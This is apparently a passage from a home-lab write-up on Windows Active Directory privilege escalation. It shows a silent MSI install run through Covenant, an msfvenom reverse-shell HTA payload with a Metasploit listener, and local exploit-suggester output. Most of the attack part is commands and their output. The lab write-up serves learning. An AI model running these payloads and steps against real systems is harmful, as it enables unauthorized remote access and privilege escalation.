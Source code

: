 - Next step is to run the uploaded file using cmd: `shell msiexec /quiet /qn /i installer.msi` in Covenant.

``` powershell
[07/24/2023 15:53:00 UTC] Shell completed

(singhx) > shell msiexec /quiet /qn /i Installer.msi
```
- We got another Grunts running.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/7682c014-46f4-41c8-b9d4-2a4ba9cc4038)

- On interacting with the latest Grunts we get the user as System.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/c698141c-8ec1-4929-b08b-b878f4fe463d)

## 4. Metasploit (AlwaysInstalledElevated Misconfiguration)
- The same we can achieve by using Metasploit.
- Generate a malicious `.hta` file using msfvenom and transfer it to the target machine.

 ```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=8000 LHOST=xxx.xxx.xxx.186 -f hta-psh -o file.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7801 bytes
Saved as: file.hta
```
- Set up a listener in metasploit.

```bash
use msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > set lhost wlan0 
lhost => wlan0
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
- When the Victim user opens the malicious file we will get the shell to our system.
- After that run exploit suggester in meterpreter.

```bash
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > run post/multi/recon/local_exploit_suggester 
[+] 10.120.116.10 - exploit/windows/local/virtual_box_opengl_escape: The service is running, but could not be validated.
[*] Running check method for exploit 43 / 43
[*] 10.120.116.10 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
```